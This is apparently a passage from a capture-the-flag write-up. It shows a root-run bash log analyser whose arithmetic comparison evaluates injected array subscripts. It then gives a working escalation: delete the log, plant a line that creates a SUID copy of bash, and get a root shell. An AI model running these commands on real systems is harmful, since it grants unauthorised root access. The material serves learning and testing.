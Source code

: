 We find that `root` is running a custom made log analyser `/opt/log_analyse.sh`. 

If we look at the content of this script, we see there is a problem with `if [[ "$existing_code" -eq "$code" ]]; then`:
```bash
analyze_http_statuses() {
    # Process HTTP status codes
    while IFS= read -r line; do
        code=$(echo "$line" | grep -oP 'Status: \K.*')
        found=0
        # Check if code exists in STATUS_CODES array
        for i in "${!STATUS_CODES[@]}"; do
            existing_entry="${STATUS_CODES[$i]}"
            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
            if [[ "$existing_code" -eq "$code" ]]; then
                new_count=$((existing_count + 1))
                STATUS_CODES[$i]="${existing_code}:${new_count}"
                break
            fi
        done
    done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
```
If we can change the value of `code`, we will be able to execute arbitrary commands as root.

We can add a line to the log file (which will be processed by the log analysis script) with the desired command:
```
HTTP Status: fake_array[$(cp /bin/bash /tmp/pwn; chmod +s /tmp/pwn)]
```
This way, `$code` variable will contain `fake_array[$(<command>)]` and it will be treated as an array. Bash will execute the command inside the array to get the index value.

First, we have to delete the existing `/var/www/web/cloud-gateway/log/application.log` and create a new one with the same name, that way we can control the log content.
```bash
rm /var/www/web/cloud-gateway/log/application.log
echo 'HTTP Status: fake_array[$(cp /bin/bash /tmp/pwn; chmod +s /tmp/pwn)]' >> /var/www/web/cloud-gateway/log/application.log
```

Then we wait until root executes the log analysis script, which will process the log file and trigger our payload.

```bash
ls -l /tmp/pwn
```
```
-rwsr-sr-x 1 root root 1183448 Aug 16 17:48 /tmp/pwn*
```

Now, we can execute our payload with the following command:

```bash
/tmp/pwn -p
whoami
```
```
root
```
